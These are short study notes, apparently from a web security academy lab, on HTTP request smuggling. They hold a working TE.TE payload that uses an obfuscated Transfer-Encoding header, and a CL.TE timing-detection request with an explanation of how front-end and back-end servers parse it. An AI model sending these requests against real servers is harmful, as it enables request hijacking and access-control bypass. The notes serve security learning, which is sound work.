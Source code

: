 #### HTTP request smuggling, obfuscating the TE header
send twice:
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```


## Finding HTTP request smuggling vulnerabilities
### Finding using timing techniques
The most generally effective way to detect HTTP request smuggling vulnerabilities is to:
- send requests that will cause
	- a time delay in the application's responses if a vulnerability is present

#### CL.TE
If an app is vulnerable to the CL.TE variant of request smuggling:
=>
sending a request like the following will often cause a time delay:
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X


```

Since the front-end server uses the `Content-Length` header:
- it will forward only part of this request, omitting the `X`

The back-end server uses the `Transfer-Encoding` header:
=>
- processes the first chunk
- and then waits for the next chunk to arrive. 
- This will cause an observable time delay
